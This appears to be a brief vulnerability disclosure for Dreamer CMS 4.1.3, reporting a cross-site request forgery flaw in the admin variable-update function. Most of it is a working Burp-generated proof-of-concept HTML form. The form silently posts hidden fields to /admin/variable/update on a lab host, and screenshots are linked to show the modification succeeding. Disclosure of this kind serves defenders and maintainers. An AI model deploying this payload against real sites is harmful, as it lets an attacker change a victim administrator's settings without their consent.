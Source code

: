 Target is https://github.com/iteachyou-wjn/dreamer_cms

version:4.1.3

There is a csrf vulnerability in the variable management modification function





click and Create a csrf poc

![1697124264515](https://github.com/moonsabc123/dreamer_cms/assets/145991754/efdb0a44-e455-4a13-adf8-1edd9b5a1ffb)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.186:8888/admin/variable/update" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="id" value="1712488872566063104" />
      <input type="hidden" name="itemName" value="cs1" />
      <input type="hidden" name="info" value="cs" />
      <input type="hidden" name="value" value="cs" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

Successfully modified

![1697124315827](https://github.com/moonsabc123/dreamer_cms/assets/145991754/1853a0c2-eeb2-4e13-8b5a-2836b04e2382)
